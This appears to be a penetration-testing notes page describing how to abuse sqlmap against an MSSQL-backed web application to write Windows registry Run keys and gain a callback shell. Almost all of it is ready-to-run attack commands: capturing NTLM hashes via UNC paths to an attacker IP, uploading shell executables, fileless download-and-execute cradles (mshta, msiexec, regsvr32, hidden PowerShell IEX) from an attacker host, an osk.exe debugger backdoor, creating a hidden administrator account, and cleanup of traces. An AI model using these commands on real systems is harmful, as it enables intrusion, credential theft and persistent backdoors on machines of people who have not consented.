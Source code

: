 # Windows Registry

## 01 - Create Registry Values

TODO: Provide  a scenario if it's not possible to reboot the windows machine. An attacker can use **Denial of Service (DoS)** attack vector to crash the machine then it reboots to get a callback shell.

## 1.1 - Conditions

TODO: Gather conditions to takeover of the machine in the MSSQL backend

1. The DBMS backend must be MSSQL

## 1.2 - Grab NTLM hashes

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net view \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.3 - Execute callback shell in disk

- **Upload a callback shell in the windows temporary directory.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --file-write=/path/to/shell.exe --file-dest="C:\Windows\Temp\shell.exe"

$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="C:\Windows\Temp\shell.exe"
```

- **Then confirm the registry value is updated successfully.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.4 - Execute callback shell in memory (fileless)

### 1.4.1 - Host a webserver to stage the implant

- **Mshta**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-value="Updater" --reg-data="mshta.exe http://<IP>/shell.hta"
```

- **Msiexec**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="msiexec /q /i http://<attacker_IP>/shell.msi"
```

- **Regsvr32**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="regsvr32 /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"
```

- **Powershell**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="powershell.exe -nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://<IP>/shell.ps1\'))\""
```

### 1.4.2 - Directly execute the callback shell

- **Powershell**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="conhost --headless powershell.exe -nop -NonI -Nologo -w hidden -e <base64_payload>"
```

- **Python**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="python -c <payload>"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

### 1.4.3 - Living off the Land

#### 1.4.3.1 - Remote Desktop Protocol via Stick Key Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value Debugger
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value Debugger --reg-type=REG_SZ --reg-data "cmd.exe"

$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value Debugger --reg-type=REG_SZ --reg-data "powershell.exe"
```

- **Create user account (Optional). Refer to this [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Persistence/Windows/Host Persistence/Create User|link]].**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater --reg-data "cmd /c net user webadmin Passw0rd123\! /add /y & net localgroup Administrators webadmin /add /y & net localgroup \"Remote Desktop Users\" webadmin /add /y"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value Debugger

$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-del "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater

$ sqlmap -u "<URL>" -p <parameter> --cookie "<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value Updater
```

## References

- [Pwning a shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [Executing OS Commands Through SQL Server](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)